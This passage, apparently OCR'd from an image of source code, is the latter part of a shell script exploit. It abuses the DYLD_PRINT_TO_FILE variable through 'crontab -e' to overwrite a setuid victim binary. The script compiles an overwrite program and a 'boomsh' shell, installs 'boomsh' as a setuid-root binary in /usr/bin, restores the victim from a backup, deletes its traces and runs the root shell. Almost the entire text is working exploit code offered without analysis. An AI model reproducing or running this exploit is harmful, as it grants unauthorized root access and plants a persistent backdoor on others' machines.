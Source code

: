 ```
        /* disable O_APPEND */
        fcntl(3, F_SETFL, 0);
        lseek(3, 0, SEEK_SET);

        /* write file into it */
        fd = open(
EOF
echo "\"$TARGET/boomsh\"" >> $TARGET/overwrite.c
cat << EOF >> $TARGET/overwrite.c
        , O_RDONLY, 0);
        if (fd > 0) {

                /* determine size */
                size = lseek(fd, 0, SEEK_END);
                lseek(fd, 0, SEEK_SET);

                while (size > 0) {
                        if (size > sizeof(buffer)) {
                                toread = sizeof(buffer);
                        } else {
                                toread = size;
                        }

                        numread = read(fd, &buffer, toread);
                        if (numread < toread) {
                                fprintf(stderr, "problem reading\n");
                                _exit(2);
                        }
                        numwritten = write(3, &buffer, numread);
                        if (numread != numwritten) {
                                fprintf(stderr, "problem writing\n");
                                _exit(2);
                        }

                        size -= numwritten;

                }

                fsync(3);
                close(fd);
        } else {
                fprintf(stderr, "Cannot open for reading\n");
        }

        return 0;
}
EOF

cp $SUIDVICTIM $TARGET/backup
gcc -o $TARGET/overwrite $TARGET/overwrite.c
gcc -o $TARGET/boomsh $TARGET/boomsh.c

EDITOR=$TARGET/overwrite DYLD_PRINT_TO_FILE=$SUIDVICTIM crontab -e 2> /dev/null
echo "cp $TARGET/boomsh /usr/bin/boomsh; chmod 04755 /usr/bin/boomsh " | $SUIDVICTIM > /dev/null 2> /dev/null
echo "cp $TARGET/backup $SUIDVICTIM" | /usr/bin/boomsh > /dev/null 2> /dev/null

rm -rf $TARGET

/usr/bin/boomsh
```